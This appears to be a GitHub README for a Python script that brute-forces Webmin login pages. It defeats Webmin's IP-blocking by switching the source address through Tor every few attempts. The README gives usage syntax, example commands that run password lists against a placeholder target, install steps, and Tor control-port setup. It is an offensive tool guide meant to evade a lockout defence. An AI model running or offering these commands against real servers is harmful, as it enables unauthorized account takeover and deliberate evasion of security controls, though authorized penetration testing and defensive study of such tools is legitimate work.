

# Bruteforce Webmin websites

This script allows to bruteforce Webmin, which by default blocks the IP address after some attempts, by rotating the IP address using Tor.

## Usage and examples

```
python3 webmin_bruteforce.py -t TARGET [-u USER] [-U USER_LIST] [-p PWD] [-P PWD_LIST] 
[-UP USERPWD_LIST] [-tp TOR_PASSWORD] [-r RETRIES_PER_IP]
```

To use Tor you must set the *-tp* parameter, or it will not rotate the IP address. By default it tests 3 passwords per IP, but you can change the number with the option *-r*.

You can test a single user (*-u*) or user list (*-U*), single password (*-p*) or password list (*-P*) or a user:password list (*-UP*)

Examples:

- **python3 webmin_bruteforce.py -t https://website.com:10000 -u admin -P 500-most-common.txt -tp test123** - Test the 500 most common passwords against user "admin" rotating the IP address every 3 attempts (default value)
- **python3 webmin_bruteforce.py -t https://website.com:10000 -U users.txt -P passwords.txt** - Test a list of users and a list of passwords without rotating the IP with Tor
- **python3 webmin_bruteforce.py -t https://website.com:10000 -UP user_pass.txt -tp test123 -r 2** - Test a user:password list rotating the IP address every 2 attempts





## Installation

```
git clone https://github.com/ricardojoserf/webmin-tor-bruteforce
cd webmin-tor-bruteforce/
pip3 install stem pysocks
apt install tor
```

## Using Tor

To use Tor to change the IP for every request, you must hash a password:

```
tor --hash-password test123
```

In the file /etc/tor/torrc, uncomment the variable *ControlPort* and the variable *HashedControlPassword*, and in this last one add the hash:

```
ControlPort 9051
HashedControlPassword 16:7F314CAB402A81F860B3EE449B743AEC0DED9F27FA41831737E2F08F87
```

Restart the tor service and use this password as argument for the script ("-tp test123" or "--tor_password 123")

```
service tor restart
```
